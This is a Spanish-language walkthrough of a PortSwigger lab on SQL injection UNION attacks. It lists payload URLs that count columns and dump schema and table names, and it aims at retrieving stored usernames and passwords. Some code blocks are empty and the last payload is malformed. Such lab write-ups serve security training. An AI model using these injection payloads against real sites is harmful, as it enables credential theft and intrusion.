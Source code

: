 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

## Dump: schema_name = DBs [DUMP = DB = pg_catalog]
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -

## Dump: table_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',table_name FROM table_schema.schemata WHERE information_schema = database()  -- -


````










